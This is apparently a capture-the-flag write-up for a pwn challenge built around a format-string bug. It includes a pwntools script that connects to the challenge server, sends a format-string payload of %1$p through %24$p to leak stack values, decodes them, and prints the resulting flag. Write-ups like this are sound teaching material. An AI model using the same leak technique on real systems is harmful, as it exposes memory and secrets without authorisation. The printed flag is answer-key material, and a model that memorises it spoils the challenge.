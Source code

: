 # Form a String

> Points: 50

> Category: pwn

## Description

Every time I input a string, it seems to respond back with the same message. Perhaps there is something we can do to get the flag out of there.

## Attachments

`nc 34.203.197.39 3000`

https://imaginary.ml/r/BC4B-Form_a_String.rar

## Solution

This challenge had to do with the [form a string vulnerability](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/)

```py
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote("34.203.197.39", 3000)
r.recvline()

query = ""
for i in range(1, 25):
    query += "%{}$p ".format(str(i))

r.sendline(query.encode())
res = r.recvlineS().split(" ")
#print(res)
for i in res:
    try:
        print(long_to_bytes(int(i, 16))[::-1])
    except Exception as e:
        continue
```

### Flag

> ictf{f0rm4t_s7r1ngs_4r3_w17h_printf}

